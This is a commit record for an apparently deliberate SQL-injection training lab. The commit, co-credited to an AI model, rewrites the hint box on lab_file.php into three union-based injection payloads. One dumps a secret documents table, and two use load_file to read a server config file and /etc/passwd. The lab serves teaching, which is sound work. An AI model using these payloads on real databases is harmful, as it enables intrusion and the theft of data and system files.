

Before and after one commit to 9teeedev/sql-injection-lab, a PHP site: page /lab_file.php in a window 1280 px wide. Shown: the part 197-800 px from the top of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data comes from the database, SQL or seed files in the repository; data that the repository does not hold is empty.

Commit message:
update: Modify lab_file.php
Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

```diff
--- a/html/lab_file.php
+++ b/html/lab_file.php
@@ -125,8 +125,18 @@
             <span class="debug-label">EXECUTED QUERY:</span>
             <code class="debug-code"><?php echo htmlspecialchars($sql); ?></code>
             <div style="margin-top: 0.5rem; font-size: 0.8em; color: #64748b;">
-                <strong>Hint:</strong> Extract hidden documents. Try:
-                <code class="debug-code" style="font-size: 0.8em; opacity: 0.9;">-1 UNION SELECT 1, filename, content FROM secret_documents #</code>
+                <strong>Hints:</strong>
+                <ul style="margin: 0.5rem 0 0 1.5rem; padding: 0;">
+                    <li>Extract hidden docs:
+                        <code class="debug-code" style="display:inline; padding: 0.2rem;">0 UNION SELECT 1, filename, content FROM secret_documents</code>
+                    </li>
+                    <li>Read internal config (Sandbox):
+                        <code class="debug-code" style="display:inline; padding: 0.2rem;">0 UNION SELECT 1, 'Config', load_file('/var/www/html/server_secret.ini')</code>
+                    </li>
+                    <li>Read system users (Real Linux):
+                        <code class="debug-code" style="display:inline; padding: 0.2rem;">0 UNION SELECT 1, 'Users', load_file('/etc/passwd')</code>
+                    </li>
+                </ul>
             </div>
         </div>
     </div>
```
